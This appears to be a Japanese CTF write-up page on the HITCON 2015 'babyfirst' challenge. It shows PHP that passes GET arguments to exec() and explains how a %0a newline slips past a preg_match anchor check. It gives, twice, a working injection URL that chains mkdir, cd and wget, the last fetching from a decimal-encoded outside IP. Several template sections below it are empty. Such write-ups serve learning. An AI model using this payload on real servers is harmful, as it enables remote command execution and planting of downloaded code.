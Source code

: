 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**

- [writeup](#writeup)
  - [PHP "preg_match" with "%0a" (hitcon2015 babyfirst)](#php-preg_match-with--hitcon2015-babyfirst)
  - [](#)
  - [](#-1)
  - [](#-2)
  - [](#-3)
  - [](#-4)
- [メモ](#%E3%83%A1%E3%83%A2)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# writeup
## PHP "preg_match" with "%0a" (hitcon2015 babyfirst)
https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst  
https://github.com/pwning/public-writeup/blob/master/hitcon2015/web100-babyfirst/writeup.md  
- **entrypoint**  
以下のソースが与えられる。  
`if ( !preg_match('/^\w+$/', $args[$i]) )`で行頭から行末までが`\w`(abcdefghijklmnopqrstuvwxyz0123456789_)の時に`/bin/orange`コマンドと結合する。  
`preg_match`の`^ $`では改行文字`%0a`を入れると「行頭から改行文字まで」に範囲が変わってしまって、改行文字以降はチェックしなくなる！  
https://qiita.com/tadsan/items/81b2925b3ed03ae6b7e0  

```php
<?php
    highlight_file(__FILE__);

    $dir = 'sandbox/' . $_SERVER['REMOTE_ADDR'];
    if ( !file_exists($dir) )
        mkdir($dir);
    chdir($dir);

    $args = $_GET['args'];
    for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) )
            exit();
    }
    exec("/bin/orange " . implode(" ", $args));
?>
```
以下のようにすることで`%0a`以降のコマンドを普通に実行できる。  
配列にしてるのは`$args[$i]`で入力が配列として期待されているから。  
```txt
http://localhost/
?args[0]=x%0a
&args[1]=mkdir
&args[2]=orange%0a
&args[3]=cd
&args[4]=orange%0a
&args[5]=wget
&args[6]=846465263%0a
```
- **payload**  
```txt
http://localhost/
?args[0]=x%0a
&args[1]=mkdir
&args[2]=orange%0a
&args[3]=cd
&args[4]=orange%0a
&args[5]=wget
&args[6]=846465263%0a
```
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  

# メモ
